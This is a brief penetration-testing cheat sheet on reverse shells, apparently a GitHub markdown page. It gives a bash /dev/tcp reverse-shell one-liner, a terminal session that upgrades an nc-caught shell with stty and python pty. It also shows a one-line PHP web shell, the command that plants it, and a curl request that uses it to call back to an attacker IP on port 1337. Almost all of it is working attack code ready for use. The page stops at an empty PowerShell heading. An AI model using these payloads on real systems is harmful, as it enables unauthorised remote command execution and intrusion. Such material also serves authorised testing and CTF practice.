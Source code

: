 # Reverse Shells

## One-Liners

### Bash
Easy Bash
```
bash -c "bash -i >& /dev/tcp/<IP>/<port> 0>&1"
```
## Shell Upgrades
* **Bash**
  ```bash
  root@target:/backend# script /dev/null -c bash
  script /dev/null -c bash            
  Script started, file is /dev/null
  root@target:/backend# ^Z                 
  [1]+  Stopped                 nc -lnvp 1337
  chuxtr@kali$ stty raw -echo; fg
  nc -lnvp 1337
            reset
  reset: unknown terminal type unknown
  Terminal type? screen
  root@target:/backend#
  ```
* **Python Shell Upgrade**
  ```bash
  python -c 'import pty; pty.spawn("/bin/bash")'
  ```
### PHP
Simple PHP WebShell
```bash
<?php system($_GET["Chuxtr"]); ?>
```
Example
```bash
echo '<?php system($_GET["Chuxtr"]); ?>' > Chuxtr.php
```
Usage
```bash
# This example produces a bash shell back to the host (Note the URL encoding)
root@kali# curl 'http://127.0.0.1:52846/Chuxtr.php?chuxtr=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.14.7/1337%200%3E%261%27'
```
## Scripts
### Powershell

